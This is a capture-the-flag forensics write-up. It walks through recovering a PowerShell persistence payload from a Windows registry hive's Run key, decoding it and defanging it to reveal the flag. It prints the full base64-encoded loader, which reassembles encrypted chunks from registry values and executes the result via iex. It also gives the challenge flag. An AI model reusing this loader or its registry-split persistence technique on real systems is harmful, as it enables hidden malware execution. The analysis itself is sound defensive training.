# Golden Persistence (Forensics 300 points) 

## Description


## Resources

[Provided files](https://github.com/FidgetCube/CTF_writeups/blob/main/2022-HTBcyberApocalypseCTF/goldenPersistence(forensics)/forensics_golden_persistence.zip)

## Solution

Unpacking the .zip file reveals a single NTUSER.DAT file so i transferred this over to my windows host as it's a windows based settings/preferences file for a given user. 

I needed a way to view the registry hives and keys so i used Registry Explorer which is a free download. 

<p align="center"></p>

Loading up the file i receive a couple of warnings. The first asks if i want to replay transaction logs against the hive, select NO. 

<p align="center"></p>

The second warning asks if i want to load a dirty hive, to which i select YES.

<p align="center"></p>

Time to browse the hive and look for anything of value. Given the challenge is called Golden Persistence, the first place i will look is the *run* or *runonce* keys because these run when a user logs on and is a common way of maintaining persistence. In the *run* key there is a powershell command and a large amount of obfuscated data. 

<p align="center"></p>

```
ZgB1AG4AYwB0AGkAbwBuACAAZQBuAGMAcgAgAHsACgAgACAAIAAgAHAAYQByAGEAbQAoAAoAIAAgACAAIAAgACAAIAAgAFsAQgB5AHQAZQBbAF0AXQAkAGQAYQB0AGEALAAKACAAIAAgACAAIAAgACAAIABbAEIAeQB0AGUAWwBdAF0AJABrAGUAeQAKACAAIAAgACAAIAAgACkACgAgAAoAIAAgACAAIABbAEIAeQB0AGUAWwBdAF0AJABiAHUAZgBmAGUAcgAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAQgB5AHQAZQBbAF0AIAAkAGQAYQB0AGEALgBMAGUAbgBnAHQAaAAKACAAIAAgACAAJABkAGEAdABhAC4AQwBvAHAAeQBUAG8AKAAkAGIAdQBmAGYAZQByACwAIAAwACkACgAgACAAIAAgAAoAIAAgACAAIABbAEIAeQB0AGUAWwBdAF0AJABzACAAPQAgAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABCAHkAdABlAFsAXQAgADIANQA2ADsACgAgACAAIAAgAFsAQgB5AHQAZQBbAF0AXQAkAGsAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEIAeQB0AGUAWwBdACAAMgA1ADYAOwAKACAACgAgACAAIAAgAGYAbwByACAAKAAkAGkAIAA9ACAAMAA7ACAAJABpACAALQBsAHQAIAAyADUANgA7ACAAJABpACsAKwApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgACQAcwBbACQAaQBdACAAPQAgAFsAQgB5AHQAZQBdACQAaQA7AAoAIAAgACAAIAAgACAAIAAgACQAawBbACQAaQBdACAAPQAgACQAawBlAHkAWwAkAGkAIAAlACAAJABrAGUAeQAuAEwAZQBuAGcAdABoAF0AOwAKACAAIAAgACAAfQAKACAACgAgACAAIAAgACQAagAgAD0AIAAwADsACgAgACAAIAAgAGYAbwByACAAKAAkAGkAIAA9ACAAMAA7ACAAJABpACAALQBsAHQAIAAyADUANgA7ACAAJABpACsAKwApAAoAIAAgACAAIAB7AAoAIAAgACAAIAAgACAAIAAgACQAagAgAD0AIAAoACQAagAgACsAIAAkAHMAWwAkAGkAXQAgACsAIAAkAGsAWwAkAGkAXQApACAAJQAgADIANQA2ADsACgAgACAAIAAgACAAIAAgACAAJAB0AGUAbQBwACAAPQAgACQAcwBbACQAaQBdADsACgAgACAAIAAgACAAIAAgACAAJABzAFsAJABpAF0AIAA9ACAAJABzAFsAJABqAF0AOwAKACAAIAAgACAAIAAgACAAIAAkAHMAWwAkAGoAXQAgAD0AIAAkAHQAZQBtAHAAOwAKACAAIAAgACAAfQAKACAACgAgACAAIAAgACQAaQAgAD0AIAAkAGoAIAA9ACAAMAA7AAoAIAAgACAAIABmAG8AcgAgACgAJAB4ACAAPQAgADAAOwAgACQAeAAgAC0AbAB0ACAAJABiAHUAZgBmAGUAcgAuAEwAZQBuAGcAdABoADsAIAAkAHgAKwArACkACgAgACAAIAAgAHsACgAgACAAIAAgACAAIAAgACAAJABpACAAPQAgACgAJABpACAAKwAgADEAKQAgACUAIAAyADUANgA7AAoAIAAgACAAIAAgACAAIAAgACQAagAgAD0AIAAoACQAagAgACsAIAAkAHMAWwAkAGkAXQApACAAJQAgADIANQA2ADsACgAgACAAIAAgACAAIAAgACAAJAB0AGUAbQBwACAAPQAgACQAcwBbACQAaQBdADsACgAgACAAIAAgACAAIAAgACAAJABzAFsAJABpAF0AIAA9ACAAJABzAFsAJABqAF0AOwAKACAAIAAgACAAIAAgACAAIAAkAHMAWwAkAGoAXQAgAD0AIAAkAHQAZQBtAHAAOwAKACAAIAAgACAAIAAgACAAIABbAGkAbgB0AF0AJAB0ACAAPQAgACgAJABzAFsAJABpAF0AIAArACAAJABzAFsAJABqAF0AKQAgACUAIAAyADUANgA7AAoAIAAgACAAIAAgACAAIAAgACQAYgB1AGYAZgBlAHIAWwAkAHgAXQAgAD0AIAAkAGIAdQBmAGYAZQByAFsAJAB4AF0AIAAtAGIAeABvAHIAIAAkAHMAWwAkAHQAXQA7AAoAIAAgACAAIAB9AAoAIAAKACAAIAAgACAAcgBlAHQAdQByAG4AIAAkAGIAdQBmAGYAZQByAAoAfQAKAAoACgBmAHUAbgBjAHQAaQBvAG4AIABIAGUAeABUAG8AQgBpAG4AIAB7AAoAIAAgACAAIABwAGEAcgBhAG0AKAAKACAAIAAgACAAWwBQAGEAcgBhAG0AZQB0AGUAcgAoAAoAIAAgACAAIAAgACAAIAAgAFAAbwBzAGkAdABpAG8AbgA9ADAALAAgAAoAIAAgACAAIAAgACAAIAAgAE0AYQBuAGQAYQB0AG8AcgB5AD0AJAB0AHIAdQBlACwAIAAKACAAIAAgACAAIAAgACAAIABWAGEAbAB1AGUARgByAG8AbQBQAGkAcABlAGwAaQBuAGUAPQAkAHQAcgB1AGUAKQAKACAAIAAgACAAXQAgACAAIAAKACAAIAAgACAAWwBzAHQAcgBpAG4AZwBdACQAcwApAAoAIAAgACAAIAAkAHIAZQB0AHUAcgBuACAAPQAgAEAAKAApAAoAIAAgACAAIAAKACAAIAAgACAAZgBvAHIAIAAoACQAaQAgAD0AIAAwADsAIAAkAGkAIAAtAGwAdAAgACQAcwAuAEwAZQBuAGcAdABoACAAOwAgACQAaQAgACsAPQAgADIAKQAKACAAIAAgACAAewAKACAAIAAgACAAIAAgACAAIAAkAHIAZQB0AHUAcgBuACAAKwA9ACAAWwBCAHkAdABlAF0AOgA6AFAAYQByAHMAZQAoACQAcwAuAFMAdQBiAHMAdAByAGkAbgBnACgAJABpACwAIAAyACkALAAgAFsAUwB5AHMAdABlAG0ALgBHAGwAbwBiAGEAbABpAHoAYQB0AGkAbwBuAC4ATgB1AG0AYgBlAHIAUwB0AHkAbABlAHMAXQA6ADoASABlAHgATgB1AG0AYgBlAHIAKQAKACAAIAAgACAAfQAKACAAIAAgACAACgAgACAAIAAgAFcAcgBpAHQAZQAtAE8AdQB0AHAAdQB0ACAAJAByAGUAdAB1AHIAbgAKAH0ACgAKAFsAQgB5AHQAZQBbAF0AXQAkAGsAZQB5ACAAPQAgACQAZQBuAGMALgBHAGUAdABCAHkAdABlAHMAKAAiAFEAMABtAG0AcAByADQAQgA1AHIAdgBaAGkAMwBwAFMAIgApAAoAJABlAG4AYwByAHkAcAB0AGUAZAAxACAAPQAgACgARwBlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgAEgASwBDAFUAOgBcAFMATwBGAFQAVwBBAFIARQBcAFoAWQBiADcAOABQADQAcwApAC4AdAAzAFIAQgBrAGEANQB0AEwACgAkAGUAbgBjAHIAeQBwAHQAZQBkADIAIAA9ACAAKABHAGUAdAAtAEkAdABlAG0AUAByAG8AcABlAHIAdAB5ACAALQBQAGEAdABoACAASABLAEMAVQA6AFwAUwBPAEYAVABXAEEAUgBFAFwAQgBqAHEAQQB0AEkAZQBuACkALgB1AEwAbAB0AGoAagBXAAoAJABlAG4AYwByAHkAcAB0AGUAZAAzACAAPQAgACgARwBlAHQALQBJAHQAZQBtAFAAcgBvAHAAZQByAHQAeQAgAC0AUABhAHQAaAAgAEgASwBDAFUAOgBcAFMATwBGAFQAVwBBAFIARQBcAEEAcABwAEQAYQB0AGEATABvAHcAXAB0ADAAMwBBADEAUwB0AHEAKQAuAHUAWQA0AFMAMwA5AEQAYQAKACQAZQBuAGMAcgB5AHAAdABlAGQANAAgAD0AIAAoAEcAZQB0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIABIAEsAQwBVADoAXABTAE8ARgBUAFcAQQBSAEUAXABHAG8AbwBnAGwAZQBcAE4AdgA1ADAAegBlAEcAKQAuAEsAYgAxADkAZgB5AGgAbAAKACQAZQBuAGMAcgB5AHAAdABlAGQANQAgAD0AIAAoAEcAZQB0AC0ASQB0AGUAbQBQAHIAbwBwAGUAcgB0AHkAIAAtAFAAYQB0AGgAIABIAEsAQwBVADoAXABBAHAAcABFAHYAZQBuAHQAcwBcAEoAeAA2ADYAWgBHADAATwApAC4AagBIADUANABOAFcAOABDAAoAJABlAG4AYwByAHkAcAB0AGUAZAAgAD0AIAAiACQAKAAkAGUAbgBjAHIAeQBwAHQAZQBkADEAKQAkACgAJABlAG4AYwByAHkAcAB0AGUAZAAyACkAJAAoACQAZQBuAGMAcgB5AHAAdABlAGQAMwApACQAKAAkAGUAbgBjAHIAeQBwAHQAZQBkADQAKQAkACgAJABlAG4AYwByAHkAcAB0AGUAZAA1ACkAIgAKACQAZQBuAGMAIAA9ACAAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBFAG4AYwBvAGQAaQBuAGcAXQA6ADoAQQBTAEMASQBJAAoAWwBCAHkAdABlAFsAXQBdACQAZABhAHQAYQAgAD0AIABIAGUAeABUAG8AQgBpAG4AIAAkAGUAbgBjAHIAeQBwAHQAZQBkAAoAJABEAGUAYwByAHkAcAB0AGUAZABCAHkAdABlAHMAIAA9ACAAZQBuAGMAcgAgACQAZABhAHQAYQAgACQAawBlAHkACgAkAEQAZQBjAHIAeQBwAHQAZQBkAFMAdAByAGkAbgBnACAAPQAgACQAZQBuAGMALgBHAGUAdABTAHQAcgBpAG4AZwAoACQARABlAGMAcgB5AHAAdABlAGQAQgB5AHQAZQBzACkACgAkAEQAZQBjAHIAeQBwAHQAZQBkAFMAdAByAGkAbgBnAHwAaQBlAHgA
```

So i copied that across to cyberchef to decode it. It's just base64 encoded and decoding reveals a script. 

<p align="center"></p>

The following code block stood out as there were several sequential commands grabbing registry key values and then storing them in a variable as one long string. There was also some lines performing some decoding and decryption.  

<p align="center"></p>

Since this script collects values from the users registry, it won't run properly on my computer because those values are stored in the provided file and therefore will not be in my registry when it performs the lookup. So some editing is needed, the easiest way would be to navigate the provided NTUSER.DAT file, locate the values and just paste them into the variable so i can run the script locally.

The first variable is $encrypted1 and holds the data field of t3RBka5tl from the key HKCU:\software\ZYb78P4s.

<p align="center"></p>

Repeat process for subsequent variables and key values.  
HKCU:\software\BjqAtIen.uLltjjw

<p align="center"></p>
 
 HKCU:\software\AppDataLow\t03A1Stq.uY4S39Da

<p align="center"></p>

Until you have all values

<p align="center"></p>

Now it's time to edit the script to perform the decryption and see what we can get from the encrypted data.  
The first step is to de-fang the code. The final line of the script (line 73) reads;
```
$DecryptedString|iex
```
iex is short for invoke-expression which executes the command. Since we dont know what is in this encrypted data, we are not going to execute it on our system. Therefore we can replace the *iex* with *write-host* and it will instead print the command, rather than execute it. Then we can analyse the commands and determine what it's doing and if it is safe to execute, or whether we actually need to execute it at all.

```
$DecryptedString|write-host
```

<p align="center"></p>

Now open up Powershell ISE so we can run it line by line. This allows us to both debug, but also have fiull control over the code so we only execute the parts we understand. If we run the first line of this code block starting at line 62, we will get an error stating that enc. is not defined. You can see a declaration of this on line 69 so lets cut this line and paste it on line 70. 

<p align="center"></p>

Lines 62 - 67 are safe to run as they just store the values we pulled from the registry of the NTUSER.DAT file. Line 68 joins them all together in the order of 1-5. This is all safe. Then just execute sequentially from there. Here is the working script.

<p align="center"></p>

## Flag: HTB{g0ld3n_F4ng_1s_n0t_st34lthy_3n0ugh}
